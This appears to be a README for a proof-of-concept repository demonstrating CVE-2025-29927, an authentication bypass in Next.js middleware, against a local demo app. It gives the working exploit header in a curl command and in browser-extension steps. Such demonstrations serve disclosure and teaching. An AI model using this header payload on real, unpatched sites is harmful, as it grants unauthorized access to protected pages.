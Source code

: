 # Next.js Middleware Vulnerability POC

This project is a Proof of Concept (POC) for the article [**Critical Next.js Vulnerability: How a Simple Header Bypasses Authentication (CVE-2025-29927) 🕵️**](https://neoxs.me/blog/critical-nextjs-middleware-vulnerability-cve-2025-29927-authentication-bypass). It demonstrates how the [CVE-2025-29927](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw) vulnerability can be exploited to bypass middleware authentication and authorization checks in a Next.js application.

## Description

The vulnerability allows attackers to bypass Next.js middleware by adding a specific header (`x-middleware-subrequest`) to their requests. This can lead to unauthorized access to protected routes, CSP bypasses, and even DoS attacks via cache poisoning.

## How to Run

1. **Clone the Repository**

```bash
git clone https://github.com/neoxs/nextjs-middleware-vuln-poc.git
cd nextjs-middleware-vuln-poc
```

2. **Install Dependencies**

```bash
npm install
```

3. **Run the Application**

```bash
npm run dev
```

4. **Exploit the Vulnerability**

Open your browser and navigate to `http://localhost:3000/dashboard`. You should be redirected to the login page.

You can exploit this vulnerability using one of these methods:

**Using curl:**

```bash
curl -X GET http://localhost:3000/dashboard \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```

**Using a browser with modHeader extension (recommended):**

1. Install the [modHeader extension](https://modheader.com/) for your browser
2. Add a new header with name `x-middleware-subrequest` and value `middleware:middleware:middleware:middleware:middleware`
3. Navigate to `http://localhost:3000/dashboard` in your browser

You should now have direct access to the dashboard area without authentication.

## Important Note

This POC is for educational purposes only. The vulnerability has been patched in the latest versions of Next.js. Always ensure your applications are up-to-date and follow best security practices.

## License

This project is licensed under the MIT License. See the **LICENSE** file for details.
